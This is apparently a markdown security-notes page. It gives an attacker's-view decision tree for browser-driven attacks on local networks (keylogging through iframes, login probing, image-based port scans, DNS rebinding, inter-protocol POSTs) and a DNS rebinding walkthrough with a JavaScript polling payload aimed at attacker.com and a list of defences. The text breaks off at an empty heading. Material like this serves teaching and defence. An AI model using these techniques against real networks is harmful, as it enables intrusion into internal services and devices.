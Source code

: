 
## Quick Decision Tree (Attacker’s POV)

1. **Third-party iframes?** → Try focus-steal keylogging.
2. **Want to know where they’re logged in?** → Probe images/pixels with `onload/onerror`.
3. **Want a LAN foothold?** → Run image-based **port scan**, fingerprint devices.
4. **Blind actions on LAN device?** → POST via form/iframe; time sequenced changes.
5. **Need to read LAN data?** → Attempt **DNS rebinding** against HTTP services ignoring `Host`.
6. **Weird ports answering?** → Try **inter-protocol** POSTs (`text/plain`) and observe side effects.

---

## **Exploiting Browser Bugs**

### 1. **DNS Rebinding**

#### What’s Happening

* **Goal**: Trick the victim’s browser into bypassing same-origin restrictions by changing the IP address that a domain resolves to **after** the initial connection.
* **Why it Works**: Browsers trust that the *domain* remains constant in the same-origin policy check — but they don’t always revalidate if the IP changes between requests.
* **Primary Use Case**: Target internal apps or services that aren’t accessible from the public internet.

#### Attack Flow

1. Victim visits malicious domain `attacker.com` → resolves to `1.1.1.1` (attacker’s server).
2. Browser makes allowed same-origin requests to `attacker.com`.
3. Attacker changes DNS to make `attacker.com` resolve to an internal IP, e.g., `192.168.0.5`.
4. Browser sends requests (still thinking it’s same-origin) but actually hits the internal service.

#### Example Payload (JavaScript)

```javascript
// Initial request to attacker-controlled server
function probeInternal() {
    fetch("http://attacker.com:8080/internal-check")
    .then(res => res.text())
    .then(data => console.log("Internal response: ", data))
    .catch(err => console.error("No access:", err));
}
setInterval(probeInternal, 2000); // Keep probing after DNS TTL expires
```

#### Modern Defenses

* **Browser**: Chrome/Firefox block rebinding to private IP ranges by default.
* **Server**: Use `Host` header validation and token-based access control.
* **Network**: Split-horizon DNS with short TTLs is suspicious.

#### 2025 Reality Check
